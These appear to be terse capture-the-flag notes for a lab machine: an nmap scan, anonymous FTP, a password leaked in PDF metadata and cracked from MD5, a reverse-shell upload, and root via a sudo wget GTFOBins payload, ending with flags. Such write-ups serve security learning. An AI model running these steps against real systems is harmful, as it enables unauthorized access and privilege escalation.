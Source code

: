## IP
10.1.2.157

## scan nmap
nmap 10.1.2.157 -sCV -p- -oN scan.nmap --min-rate=1000

## ftp
ftp-anon: Anonymous FTP login allowed (FTP code 230)

## connect to ftp
>> ftp 10.1.2.157
   >> anonymous

## transfer ftp file
>> ls
>> get sienna_eborchure.pdf

## check metadata pdf
>> exiftool sienna_eborchure.pdf
-- Creator : your password is dcb76da384ae3028d6aa9b2ebcea01c9
-- pwd : dcb76da384ae3028d6aa9b2ebcea01c9
-- decrypt : sayang (md5)

## Login
find /var -type f -name "*.php"
## upload reverse shell

## privilege escalation
>> su viente
>> sayang
>> sudo -l
>> gtfobin wget

python3 -c 'import pty; pty.spawn("/bin/bash")'

TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/bash\n/bin/bash 1>&0' >$TF
sudo wget --use-askpass=$TF 0

d41d8cd98f00b204e9800998ecf8427e --user
bfa735005ec4d7637c0faf2ad0859132 --root

e952ebf409e34aee308038f555d85049
FlAg{H4h4H4_YoU_CaNt_dO_ThAt}

FlAg{e952ebf409e34aee308038f555d85049}
FlAg{bfa735005ec4d7637c0faf2ad0859132}
FlAg{d41d8cd98f00b204e9800998ecf8427e}